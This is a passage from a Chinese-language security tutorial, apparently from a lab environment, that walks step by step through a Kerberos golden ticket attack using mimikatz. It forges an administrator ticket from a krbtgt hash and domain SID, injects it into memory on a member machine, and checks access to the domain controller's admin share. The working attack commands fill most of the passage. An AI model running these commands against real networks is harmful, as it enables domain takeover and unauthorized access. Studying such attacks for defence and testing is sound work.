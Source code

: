 2、生成票据  

使用 mimikatz 生成包含 krbtgt 身份的票据：（在域管下执行）

```
kerberos::golden /user:administrator /domain:god.org /sid:S-1-5-21-1218902331-2157346161-1782232778 /krbtgt:b097d7ed97495408e1537f706c357fc5 /ticket:Administrator.kiribi
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY0bcG9waGWXppUaTNykJ703V0GgOMGRI2Hj6SgyZBibsrU6h33ia8DwPwA/640?wx_fmt=png)

这个时候会在当前目录下生成一个名为：Administrator.kiribi 的文件！  

3、传递票据并注入内存  

将 Administrator.kiribi 票据放到域成员 mary 机器上然后注入内存：（使用 mary 运行）

```
kerberos::ptt Administrator.kiribi
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY00BfAwa4lWL9iaDayTicE78UIlg4cliaOLuicDl7b3GOFqtGSdyRBx5dXYA/640?wx_fmt=png)

4、检索当前会话中的票据  

查看注入的票据：

```
kerberos::tgt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY0vEDL8oBWMhLk8GibXxDzV6FhAAICpdUkkmqQQqVgRUl2YAGBI37dDeA/640?wx_fmt=png)

可以看到当前的票据已经在内存会话中了。  

#### 4、验证权限

我们已经把票据注入到内存了，这个时候我们就可以看看是否获取到了域控的权限：

```
dir \\OWA2010CN-God\c$
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY06823v7MBEvtWWIeccEU76Fb5OuZ3oAiawXRtbrQTIdwiaAmt7cWJ3GvA/640?wx_fmt=png)

如果想要清除内存中的票据可以使用：

```
kerberos::purge
```

**结尾**

使用黄金票据伪造的用户可以是任意用户（即使这个用户不存在），因为 TGT 的加密是由 krbtgt 完成的，所以只要 TGT 被 krbtgt 账户和密码正确的加密，那么任意 KDC 使用 krbtgt 将 TGT 解密后，TGT 中的所有信息都是可信的。

* * *

参考文章：  

https://www.jianshu.com/p/4936da524040
